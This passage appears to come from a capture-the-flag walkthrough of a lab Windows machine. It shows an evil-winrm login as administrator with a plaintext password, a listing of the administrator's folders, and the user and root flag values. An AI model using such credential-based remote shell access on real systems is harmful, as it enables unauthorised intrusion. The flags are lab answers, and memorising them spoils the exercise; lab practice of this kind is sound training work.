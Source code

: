 ```awk
evil-winrm -i 10.129.95.187 -u administrator -p 'MEGACORP_4dm1n!!'
```

```
*Evil-WinRM* PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        7/27/2021   2:30 AM                3D Objects
d-r---        7/27/2021   2:30 AM                Contacts
d-r---        7/27/2021   2:30 AM                Desktop
d-r---        7/27/2021   2:30 AM                Documents
d-r---        7/27/2021   2:30 AM                Downloads
d-r---        7/27/2021   2:30 AM                Favorites
d-r---        7/27/2021   2:30 AM                Links
d-r---        7/27/2021   2:30 AM                Music
d-r---        7/27/2021   2:30 AM                Pictures
d-r---        7/27/2021   2:30 AM                Saved Games
d-r---        7/27/2021   2:30 AM                Searches
d-r---        7/27/2021   2:30 AM                Videos


*Evil-WinRM* PS C:\Users\Administrator>
```

## FLAGS

### Root Flag

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
b91ccec3305e98240082d4474b848528
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

### User Flag

```
*Evil-WinRM* PS C:\Users\sql_svc\Desktop> cat user.txt
3e7b102e78218e935bf3f4951fec21a3
*Evil-WinRM* PS C:\Users\sql_svc\Desktop> 
```





